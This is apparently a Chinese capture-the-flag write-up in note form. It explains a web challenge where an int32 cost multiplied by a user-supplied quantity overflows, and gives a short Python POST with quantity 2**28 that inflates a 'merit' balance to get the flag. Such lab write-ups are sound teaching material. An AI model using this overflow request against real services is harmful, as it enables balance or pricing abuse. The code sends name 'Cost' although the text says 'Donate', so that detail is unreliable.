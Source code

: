 - # 题目
	- `/upgrade`接口会根据`name`获取对应的cost(`int32`)，^^如果`name`是`Donate`就将其cost乘以`quantity`^^，最后让功德减去价格，得到新的功德值
		- 其中`Donate`对应的cost是10
	- `/`会在功德很多的时候返回flag
	- `/reset`会重置功德
- # 题解
	- 我们知道`i32(10)`乘以一个很大的数会造成上溢出，得到一个很小的数，我们可以通过这个方法得到大量功德
		- ```python
		  r = base_post(f"{url}/upgrade", data = {
		      "name": "Cost",
		      "quantity": 2 ** 28
		  }, acceptable_code = [200, 400])
		  print(r.text)
		  ```